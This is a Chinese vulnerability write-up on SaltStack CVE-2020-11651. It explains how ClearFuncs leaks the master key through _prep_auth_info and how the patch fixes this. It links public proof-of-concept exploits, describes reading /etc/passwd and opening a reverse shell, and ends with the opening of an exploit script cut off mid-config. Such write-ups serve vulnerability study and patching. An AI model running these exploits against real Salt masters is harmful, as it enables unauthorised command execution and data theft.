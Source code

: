 其中 _handle_clear & _handle_aes 函数分别处理明文和加密指令：

![](http://wikioss.peiqi.tech/vuln/salt-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

在这里，`self._clear_funcs` 是 `class ClearFuncs` 的实例，在这里API访问者可以无认证调用任意的类函数。

```python
class ClearFuncs(TransportMethods):
    """
    Set up functions that are safe to execute when commands sent to the master
    without encryption and authentication
    """
```

`ClearFuncs._prep_auth_info()`将self.key返回给API造成泄露。攻击者可先通过这一方法拿到key，然后通过认证接口下发shell指令。

之前存在漏洞的代码中仅过滤掉`__`开头的private方法，导致`_prep_auth_info`泄露，patch中对clearfuncs和aesfuncs两个类添加了expose白名单过滤：

![](http://wikioss.peiqi.tech/vuln/salt-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

这里使用 POC 来复线

下载地址: https://github.com/jasperla/CVE-2020-11651-poc

![](http://wikioss.peiqi.tech/vuln/salt-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

读取文件 **/etc/passwd**

![](http://wikioss.peiqi.tech/vuln/salt-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

反弹shell（这里使用另一个POC）

下载地址: https://github.com/heikanet/CVE-2020-11651-CVE-2020-11652-EXP/blob/master/CVE-2020-11651.py

![](http://wikioss.peiqi.tech/vuln/salt-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

[下载地址](https://github.com/heikanet/CVE-2020-11651-CVE-2020-11652-EXP/blob/master/CVE-2020-11651.py)

```python
# BASE https://github.com/bravery9/SaltStack-Exp
# 微信公众号：台下言书
# -*- coding:utf-8 -*- -
from __future__ import absolute_import, print_function, unicode_literals
import argparse
import os
import sys
import datetime

import salt
import salt.version
import salt.transport.client
import salt.exceptions

DEBUG = False


def init_minion(master_ip, master_port):
    minion_config = {
        'transport': 'zeromq',
        'pki_dir': '/tmp',
        'id': 'root',
        'log_level': 'debug',
        'master_ip': master_ip,
        'master_port': master_port,
        'auth_timeout': 5,
        'auth_tries': 1,
```